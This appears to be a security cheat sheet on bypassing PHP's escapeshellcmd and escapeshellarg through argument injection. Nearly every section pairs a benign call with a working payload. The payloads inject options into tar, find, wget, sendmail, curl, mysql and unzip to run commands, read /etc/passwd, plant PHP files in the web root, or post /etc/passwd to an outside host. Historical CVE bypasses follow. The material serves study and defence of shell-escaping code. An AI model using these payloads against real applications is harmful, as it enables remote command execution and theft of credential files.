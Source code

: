 # Argument Injection

As you can see from previous chapter it's not possible to execute second command when escapeshellcmd/escapeshellarg is used.

But still we can pass arguments to the first command.

This means that we can also pass new option to the command.

Ability to exploit vulnerability depends on the target executable.

Below you can find list of known executables with some specific options which can be misused.

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#tar)[TAR](http://baesystemsai.blogspot.fr/2013/11/security-issues-with-using-phps.html)

Compress `some_file` into `/tmp/sth`.

```html
$command = '-cf /tmp/sth /some_file';
system(escapeshellcmd('tar '.$command));
```

Create empty `/tmp/exploit` file.

```html
$command = "--use-compress-program='touch /tmp/exploit' -cf /tmp/passwd /etc/passwd";
system(escapeshellcmd('tar '.$command));
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#find)[FIND](https://www.securify.nl/blog/SFY20170103/spot-the-bug-challenge-2016-write-up.html)

Find `some_file` inside `/tmp` directory.

```html
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print `/etc/passwd` content.

```html
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#escapeshellcmd-with-escapeshellarg)[Escapeshellcmd with escapeshellarg](https://blog.ripstech.com/2017/why-mail-is-dangerous-in-php/)

In this configuration we can pass second argument to the function.

List files inside `/tmp` dir and ignore `sth`.

```html
$arg = "sth";
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
```

List files inside `/tmp` dir and ignore `sth`. Use a long listing format.

```html
$arg = "sth' -l ";
// ls --ignore='exploit'\\'' -l \' /tmp
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#wget)WGET

Download `example.php`.

```html
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

Save `.php` file to specific directory:

```html
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#command-executed-using-bat)[Command executed using .bat](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)

Print list of files inside `somedir`.

```html
$dir = "somedir";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

Also execute `whoami` command.

```html
$dir = "somedir \x1a whoami";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

See: [how passing parameters to a new process on Windows](http://daviddeley.com/autohotkey/parameters/parameters.htm#WINPASS).

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#sendmail)[SENDMAIL](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)

Send `mail.txt`. Set the envelope sender address to `from@sth.com`

```html
$from = 'from@sth.com';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' < mail.txt');
```

Print `/etc/passwd` content.

```html
$from = 'from@sth.com -C/etc/passwd -X/tmp/output.txt';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' < mail.txt');
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl)[CURL](https://tom0li.github.io/2018/03/06/escapeshellarg&escapeshellcmd/)

Download `http://example.com` content.

```html
$url = 'http://example.com';
system(escapeshellcmd('curl '.$url));
```

Send `/etc/passwd` content to `http://example.com`.

```html
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));
```

You can get file using:

```html
file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name']));
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#mysql)[MYSQL](http://skysec.top/2017/12/14/pwnhub%E6%88%90%E5%8A%9F%E5%B0%B1%E6%98%AF%E8%A6%81%E6%A2%AD%E5%93%88%E4%B9%8B%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)

Execute sql statement:

```html
$sql = 'SELECT sth FROM table';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));
```

Run `id` command.

```html
$sql = '\! id';
system("mysql -uuser -ppassword -e ".escapeshellarg($sql));
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#unzip)[UNZIP](http://lab.onsec.ru/2013/03/breaking-escapeshellarg-news.html)

Unpack all `*.tmp` files from `archive.zip` into `/tmp` directory.

```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));
```

Unpack all `*.tmp` files from `archive.zip` into `/var/www/html` directory.

```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');
```

## [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#strip-non-ascii-characters-if-the-lang-environment-variable-is-not-set)[Strip non-ascii characters if the LANG environment variable is not set](https://bugs.php.net/bug.php?id=54391)

```
$filename = 'résumé.pdf';
// string(10) "'rsum.pdf'"
var_dump(escapeshellarg($filename));
setlocale(LC_CTYPE, 'en_US.utf8');
//string(14) "'résumé.pdf'" 
var_dump(escapeshellarg($filename));

```

# [](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#historical-exploits)Historical exploits

1. [PHP <= 4.3.6 on Windows](https://www.securitytracker.com/id/1010410) - CVE-2004-0542

```
$find = 'word';
system('FIND /C /I '.escapeshellarg($find).' c:\\where\\');
```

Run also `dir` command.

```
$find = 'word " c:\\where\\ || dir || ';
system('FIND /C /I '.escapeshellarg($find).' c:\\where\\');
```

2. [PHP 4 <= 4.4.8 and PHP 5 <= 5.2.5](https://www.sektioneins.de/en/advisories/advisory-032008-php-multibyte-shell-command-escaping-bypass-vulnerability.html) - CVE-2008-2051

Shell needs to uses a locale with a variable width character set like GBK, EUC-KR, SJIS.

```
$text = "sth";
system(escapeshellcmd("echo ".$text));
```

```
$text = "sth \xc0; id";
system(escapeshellcmd("echo ".$text));
```

OR

```
$text1 = 'word';
$text2 = 'word2';
system('echo '.escapeshellarg($text1).' '.escapeshellarg($text2));
```

```
$text1 = "word \xc0";
$text2 = "; id ; #";
system('echo '.escapeshellarg($text1).' '.escapeshellarg($text2));
```

3. [PHP < 5.4.42, 5.5.x before 5.5.26, 5.6.x before 5.6.10 on Windows](https://bugs.php.net/bug.php?id=69646) - CVE-2015-4642

Pass additional third parameter `(--param3)` to function.

```
$a = 'param1_value';
$b = 'param2_value';
system('my_command --param1 ' . escapeshellarg($a) . ' --param2 ' . escapeshellarg($b));
```

```
$a = 'a\\';
$b = 'b -c --param3\\';
system('my_command --param1 ' . escapeshellarg($a) . ' --param2 ' . escapeshellarg($b));
```

4. [PHP 7.x before 7.0.2](https://bugs.php.net/bug.php?id=71270) - CVE-2016-1904

Heap-based buffer overflow if you pass `1024mb` string to `escapeshellarg` or `escapeshellcmd`.

5. [PHP 5.4.x < 5.4.43 / 5.5.x < 5.5.27 / 5.6.x < 5.6.11 on Windows](https://bugs.php.net/bug.php?id=69768)

Expand some environment variables when [EnableDelayedExpansion](https://ss64.com/nt/delayedexpansion.html) is enabled.

Then `!STH!` works similar to `%STH%`.

`escapeshellarg` doesn't sanitize `!` character.

EnableDelayedExpansion can be set in the registry under HKLM or HKCU:

```
[HKEY_CURRENT_USER\Software\Microsoft\Command Processor]
"DelayedExpansion"= (REG_DWORD)
1=enabled 0=disabled (default)
```

Example:

```html
// Leak appdata dir value
$text = '!APPDATA!';
print "echo ".escapeshellarg($text);
```

6. [PHP < 5.6.18](https://bugs.php.net/bug.php?id=71039)

The functions defined in `ext/standard/exec.c` which work with strings (`escapeshellcmd`, `eschapeshellarg`, `shell_exec`), all ignore the length of the PHP string, and work with NULL termination instead.

```html
echo escapeshellarg("hello\0world");
=>
hello
```